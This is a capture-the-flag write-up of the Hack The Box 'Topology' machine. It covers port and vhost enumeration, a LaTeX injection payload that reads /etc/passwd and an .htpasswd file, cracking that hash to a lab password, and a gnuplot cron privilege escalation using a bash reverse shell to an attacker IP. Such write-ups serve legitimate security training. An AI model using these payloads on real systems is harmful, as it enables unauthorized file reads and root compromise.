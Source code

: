 # HTB - Topology

#### Ip: 10.129.158.218
#### Name: Topology
#### Rating: Easy

------------------------------------------------

![Topology.png](../assets/topology_assets/Topology.png)

#### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 5000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Topology]
└─$ sudo nmap -p- --min-rate 5000 -sC -sV 10.129.158.218
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2025-02-27 16:02 CST
Nmap scan report for 10.129.158.218
Host is up (0.070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.63 seconds
```

Looking at the site we find a page for a university mathematics department:

![htb_topology_site.png](../assets/topology_assets/htb_topology_site.png)

The site has a link for "LaTeX Equation Generator - create .PNGs of LaTeX equations in your browser" which attempts to forward to latex.topology.htb, so let's add that to `/etc/hosts`.

Let's also scan for more VHOSTS before enumerating this further:

```
┌──(ryan㉿kali)-[~/HTB/Topology]
└─$ ffuf -u http://topology.htb -H 'HOST: FUZZ.topology.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt  -fw 1612 -mc all

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://topology.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.topology.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response words: 1612
________________________________________________

[Status: 401, Size: 463, Words: 42, Lines: 15, Duration: 76ms]
    * FUZZ: dev

[Status: 200, Size: 108, Words: 5, Lines: 6, Duration: 73ms]
    * FUZZ: stats
```

Cool, two more VHOSTS, let's add these to `/etc/hosts` as well.

The dev page requires authentication, which we don't have yet, and the stats page seems to just offer server load stats, with no real information.

Now visiting the Latex site we find a LaTex Equation Generator:

![htb_topology_latex.png](../assets/topology_assets/htb_topology_latex.png)

Entering one of the site's examples we find:

![htb_topology_example.png](../assets/topology_assets/htb_topology_example.png)

Looking at the webpage root we find a few files we can download:

![htb_topology_index.png](../assets/topology_assets/htb_topology_index.png)

Checking out the header.tex file we find the site is using listings, which may give us access to other files:

![htb_topology_header.png](../assets/topology_assets/htb_topology_header.png)

### Exploitation

Researching more about this I find: https://ctan.org/pkg/listings?lang=en which mentions using `\lstinputlisting` for file reads.

But trying something like: `\lstinputlisting[/etc/passwd` continues to fail.

Heading over to trusty HackTricks and looking up LaTex injection we find a helpful note:

```
You might need to adjust injection with wrappers as [ or $.
```

So with these we can now wrap our command in `$` symbols like: `$\lstinputlisting{/etc/passwd}$` and successfully read the file:

![htb_topology_etc.png](../assets/topology_assets/htb_topology_etc.png)

Searching for interesting files, I finally find an `.htpasswd` file for the dev site discovered earlier:

![htb_topology_hash.png](../assets/topology_assets/htb_topology_hash.png)

Let's crack this using Hashcat:

```
┌──(ryan㉿kali)-[~/HTB/Topology]
└─$ hashcat hash /usr/share/wordlists/rockyou.txt --user
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
==========================================================================================================================================
* Device #1: pthread--0x000, 1403/2870 MB (512 MB allocatable), 1MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

1600 | Apache $apr1$ MD5, md5apr1, MD5 (APR) | FTP, HTTP, SMTP, LDAP Server

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

<SNIP>

$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus20          
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR))
```

Cool, we now have the credentials `vdaisley:calculus20`

We can use this to SSH in and grab the user.txt flag:

```
┌──(ryan㉿kali)-[~/HTB/Topology]
└─$ ssh vdaisley@10.129.158.218
```

![htb_topology_user.png](../assets/topology_assets/htb_topology_user.png)

### Privilege Escalation

Poking around the box we find a directory called gnuplot in `/opt`:

```
vdaisley@topology:~$ cd /opt
vdaisley@topology:/opt$ ls
gnuplot
vdaisley@topology:/opt$ file gnuplot/
gnuplot/: directory
vdaisley@topology:/opt$ cd gnuplot/
vdaisley@topology:/opt/gnuplot$ ls
ls: cannot open directory '.': Permission denied
```

According to http://www.gnuplot.info/:

```
Gnuplot is a portable command-line driven graphing utility for Linux, Windows, macOS, OS/2, VMS, and other platforms.
```

Loading Pspy64 to the target to view running cronjobs, we see several jobs run by root coming out of the gnuplot directory:

![htb_topology_cron.png](../assets/topology_assets/htb_topology_cron.png)


I'm particularly interested in the following cronjob:

```
/bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; 
```

This folder is interesting because while we can't list files, we can write to it:

```
vdaisley@topology:/opt/gnuplot$ ls
ls: cannot open directory '.': Permission denied
vdaisley@topology:/opt/gnuplot$ touch test.txt
vdaisley@topology:/opt/gnuplot$ echo "hi" > test.txt
vdaisley@topology:/opt/gnuplot$ cat test.txt
hi
vdaisley@topology:/opt/gnuplot$ ls -la
ls: cannot open directory '.': Permission denied
```

So because the cronjob above is using wildcards and executing with gnuplot any `.plt` files, let's create one called shell.plt which will be executed with root permissions when the job runs:

```
system "bash -c 'bash -i >& /dev/tcp/10.10.14.162/443 0>&1'"
```

![htb_topology_shell.png](../assets/topology_assets/htb_topology_shell.png)

Nice, we can now grab the final flag:

![htb_tolology_root.png](../assets/topology_assets/htb_tolology_root.png)

Thanks for following along!

-Ryan

-----------------------------------------
